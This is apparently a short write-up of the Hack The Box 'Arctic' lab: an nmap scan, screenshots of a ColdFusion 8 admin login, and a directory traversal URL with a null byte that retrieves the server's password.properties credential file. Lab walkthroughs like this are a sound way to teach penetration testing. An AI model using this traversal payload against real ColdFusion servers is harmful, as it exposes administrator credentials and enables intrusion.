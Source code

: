 Arctic without metasploit

![Arctic](https://user-images.githubusercontent.com/55708909/91928522-e9b22700-ecf9-11ea-8e4f-c0b58d72e18e.png)

Starting with nmap scan:

Nmap -sC -sV -T4 -A -O -oA Arctic -p- 10.10.10.11

![Arctic_nmap](https://user-images.githubusercontent.com/55708909/91930680-1ddc1680-ecff-11ea-9147-2e2564c46c1d.png)

At port 8500 i saw some directory and after digging deeper i saw administrator 

![Arctic_port_85](https://user-images.githubusercontent.com/55708909/91930674-1ae12600-ecff-11ea-94d3-5a86cfec6e69.png)

![Arctic_admin](https://user-images.githubusercontent.com/55708909/91930685-20d70700-ecff-11ea-9377-9d772de281a1.png)

Admin page is asking for password lets see if there is some way to bypass this 

![arctic_admin](https://user-images.githubusercontent.com/55708909/91931428-0e5dcd00-ed01-11ea-9abf-4539a3f5358a.png)

![Arctic_exploit](https://user-images.githubusercontent.com/55708909/91931450-17e73500-ed01-11ea-91a7-7807d6b1f486.png)

Use directory traversal exploit 14641.py

from that change the url address as per your need i.e. 

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

